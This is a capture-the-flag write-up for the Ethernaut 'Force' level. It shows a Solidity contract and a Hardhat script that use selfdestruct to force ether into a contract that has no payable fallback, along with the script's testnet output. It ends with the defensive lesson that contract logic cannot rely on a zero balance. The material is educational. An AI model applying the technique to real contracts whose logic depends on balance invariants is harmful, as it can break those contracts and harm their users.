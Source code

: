 ```yaml
---
title: Ethernaut #07 Force
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Force challenge writeup
---
```


## Force

### Challenge

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Background

This challange was the first I didn't know how to solve and needed to check. It turns out when a contract `selfdestruct`s it can choose where its funds should go. And one option is to send all funds to a different contract. In this case the contract will accept the funds.

### Attack

Create a contract with `selfdestruct` functionality, send funds to it and trigger the `selfdestruct` with the address of the `Force` contract.

* Create a contract that can `selfdestruct`
* Call the `selfdestruct` functionality on the contract with the `Force` address argument and send some value to it

#### ForceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceSolve {

  constructor() public {}

  function send(address payable _forceAddress) public payable {
    selfdestruct(_forceAddress);
  }
}
```

#### force-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    forceAddress = "0x5B4656e37375734215B0C4dB0fFE6548009C9c26";
    contract = await ethers.getContractAt("Force", forceAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ForceSolve = await ethers.getContractFactory("ForceSolve");
    forceSolve = await ForceSolve.deploy();
    await forceSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // send funds buy calling selfdestruct
    tx = await forceSolve.connect(account).send(contract.address, { value: 1 })
    receipt = await tx.wait()

    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/force-solve.js --network rinkeby
Level address   : 0x5B4656e37375734215B0C4dB0fFE6548009C9c26
Contract Balance: 0
Contract Balance: 1
```

### Success Message

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
